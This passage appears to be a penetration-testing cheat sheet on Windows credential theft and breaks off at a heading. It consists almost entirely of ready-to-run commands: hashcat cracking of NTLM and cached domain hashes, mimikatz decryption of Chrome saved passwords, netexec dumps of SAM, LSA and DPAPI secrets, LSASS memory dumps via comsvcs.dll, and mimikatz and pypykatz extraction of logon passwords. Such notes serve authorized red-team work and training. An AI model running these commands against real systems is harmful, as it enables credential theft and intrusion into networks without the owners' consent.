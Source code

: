 ````
$ sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
$ hashcat -m 2100 '$DCC2$10240#administrator#23d97555681813db79b2ade4b4a6ff25' /usr/share/wordlists/rockyou.txt
````
**DPAPI**
````
C:\Users\Public> mimikatz.exe
mimikatz # dpapi::chrome /in:"C:\Users\bob\AppData\Local\Google\Chrome\User Data\Default\Login Data" /unprotect
````

**Dump SAM, lsa, dpapi Remote**
````
$ netexec smb <IP> --local-auth -u <user> -p <password> --sam
$ netexec smb <IP> --local-auth -u <user> -p <password> --lsa
$ netexec smb <IP> -u <user> -p <password> --dpapi
$ netexec smb <IP> -u <user> -p <password> --dpapi cookies
$ netexec smb <IP> -u <user> -p <password> --dpapi nosystem
$ netexec smb <IP> -u <user> -p <password> --local-auth --dpapi nosystem
````

### LSASS

**Option 1**
````
Open Task Manager
Select the Processes tab
Find and right click the Local Security Authority Process
Select Create dump file
````
**Option 2**
````
> tasklist /svc (Find PID Lsass from cmd)
> Get-Process lsass (Find PID Lsass from powershell)
> rundll32 C:\windows\system32\comsvcs.dll, MiniDump <PID> C:\lsass.dmp full
````
**Pypykatz to extract credentials**
````
$ pypykatz lsa minidump /home/peter/Documents/lsass.dmp
````
**Option 3**
````
- Mimikatz -
# privilege::debug
# sekurlsa::logonpasswords
# sekurlsa::logonPasswords full
# sekurlsa::credman
````

**Dump Remote lsass**
````
$ nxc smb <IP> -u <user> -p '<password>' -M lsassy
````

### Windows Credential Manager
